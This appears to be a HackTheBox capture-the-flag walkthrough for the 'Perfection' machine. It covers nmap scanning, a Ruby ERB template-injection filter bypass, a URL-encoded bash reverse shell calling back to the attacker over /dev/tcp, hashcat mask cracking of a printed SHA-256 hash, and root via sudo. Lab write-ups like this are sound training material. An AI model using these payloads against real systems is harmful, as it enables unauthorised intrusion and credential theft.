




# Perfection machine from [HackTheBox](https://www.hackthebox.com/)

Target IP: 10.10.11.253

### Topics / tools
* [SSTI](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#erb-ruby) using Ruby and bypassing special character restriction
* Hashcat for brute forcing a hash using [masks](https://hashcat.net/wiki/doku.php?id=mask_attack)

## Enumeration and reconnaissance
As always we start enumerating the target machine 
``` bash
nmap -sS -p- -n --min-rate 5000 -vvv -oG open_ports 10.10.11.253
```
After finding ports 22 (SSH) and 80 (HTTP) open we use nmap script engine to obtain more information, such as services running, versions and any information the default scripts may retrieve
``` bash
nmap -sCV -p22,80 -vvv --min-rate 5000 -n -oN target_ports 10.10.11.253
```
We don't see much more valuable information, so let's explore the http server.

## Gaining access to target machine

In the browser we go to `http://10.10.11.1253` and see a very simple application called 'Weighted Grade Calculator'. The tab 'Calculate your weighted grade' redirect us to a page where are several fields for us to add grade notes, it's name and the weight. After filling some of those rows if we press the button below we get a result showing the result of the weighted grade, so far so good.

Using Burpsuite we can try to tamper with the payload request, modifying either the grades, weights or the category. After playing a while with it we can confirm that there is some level of input sanitization because we can't add strings as grade nor adding weights that adds to more than 100.
But something caught up my attention, when using special characters in the payload, such as `'<%(`, we received a response saying "invalid input". 
Doing some reasearch online it appears that using `%0A` work as a payload bypass.

Now that we can bypass this security we should look into potential payloads to vulnerate the machine. Given that the application is doing math operations and thanks to the server response we can see it's using Ruby, let's try some simple Serve Side Template Injection 
[payloads](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#erb-ruby).

The image below shows both the characters used for bypass and the STTI payloads. As we can see in the responsem the first two STTI payloads didn't work out, but the third one did: `<%= 7*7 %>`. One very important detail is that it's URL encoded, so `<%= 7*7 %>` --URL-enconding--> `<%25%3d+7*7+%25>`

<div style="text-align: center;">
  
</div>

We were able to **execute code in the target machine**!!

Now let's craft a payload that will give us access to the machine:
``` bash
system("bash -c 'bash -i >& /dev/tcp/<MY-IP>/443 0>&1'")
# And let's URL encode that (use your tool of preference)
# Only encoding the special characters is enough
<%25%3d+system("bash -c 'bash+-i+>%26+/dev/tcp/10.10.14.33/443+0>%261'")+%25>
```

On the host machine we start a listener on the same port using netcat
`nc -nlvp 443` and go back to Burpsuite and send the request. It's okey if we don't see any reponse from the server on Burpuiste, we should go to the listener terminal and verify we received a connection from the target machine.

<div style="text-align: center;">
  
</div>

As the user 'susan' we can access the `user.txt` flag.
``` bash
> nc -nlvp 443
susan@perfection:~/ruby_app$ ls ~/
ls ~/
Migration
ruby_app
user.txt
```


## Scalating privileges

While playing around from the target machine and inspecting several files I found an intersting one: `cat /var/mail/susan`.
This file contains the format of the password for the susan user: susan_nasus_{a random number from 1 to 1000000000}


We could try to brute force that, for sure. But let's looking around a bit more to gain more knowledge of the system.

In the `/home/susan` directory we find a `Migration` folder that contains a file called `pupilpath_credentials.db` and after echoing it's content it happens to contain a hash, most likely the hash of the password.

Susan password hash: 
`abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`


So knowing the hash password along with the format schema we previously found we can use hashcat and build a mask that matches the password format hoping to crack the hash.

Hashcat command
``` bash
hashcat -m 1400 -a 3 <HASH-FILE> susan_nasus_?d?d?d?d?d?d?d?d?d
```
`-m 1400:` the mode 1400 is SHA2-256, the same the SSH server was using acording to nmap \
`- a 3:` we select brute force as attack mode
As per the mask, more information can be found [here](https://hashcat.net/wiki/doku.php?id=mask_attack), the most important thing is we want to match numbers only.

<div style="text-align: center;">
  
</div>

Once hashcat cracks the hash we obtain the password. What can we do with that?
Well one of the goes-to when compromising a machine is running `sudo -l` to see what commands we can run as sudo.
It happens that susan can ran every command as sudo!!

So we just run
``` bash
# switch to root user
> sudo su
> whoami
root
> cat /root/root.txt
```

## Summary

We were able to compromise this machine because of the following vulnerabilities:

* SSTI which allowed us to stablish a reverse shell
* A file containing user hash pasword in plain text
* A file containing the password format in plain text
* The user has sudoer permissions to run any command
